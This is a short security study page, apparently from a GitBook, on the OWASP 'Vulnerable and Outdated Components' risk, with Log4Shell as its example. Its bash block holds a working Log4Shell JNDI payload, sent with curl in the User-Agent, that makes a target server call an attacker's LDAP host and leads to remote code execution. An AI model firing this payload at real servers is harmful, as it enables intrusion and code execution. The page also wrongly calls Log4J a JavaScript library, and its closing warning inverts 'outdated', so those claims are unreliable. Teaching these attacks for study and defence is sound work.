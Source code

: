```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Vulnerable and Outdated Components

Highlights the dangers of using software libraries, frameworks, or components that contain known vulnerabilities or are outdated. When applications rely on these components, they inherit their security weaknesses which could happen even server-side or client-side.

We can find a typical example of this vulnerability as follows:

* The _Log4Shell_ vulnerability is one of the most known examples of this. Is a vulnerability from the JavaScript library _Log4J_ which allowed RCE and information disclosure.

{% code overflow="wrap" lineNumbers="true" %}
```bash
#For example, a server is running using this component in its code
http://$url:8888/
#If we make a JNDI petition to the web server and redirect it to a JNDI server of our own, the connection will be caught and the web server will process the content of the JNDI server
curl -A \${jndi:ldap://192.168.2.5:1234/a} http://TCMserver:8888/
#This can be leveraged by submitting exploits to the JNDI server which will cause information disclosure and even RCE on the target server
```
{% endcode %}

{% hint style="warning" %}
This has been fixed in the latest versions of Log4J, but the vulnerability will remain in every application using a non-outdated version of the library
{% endhint %}
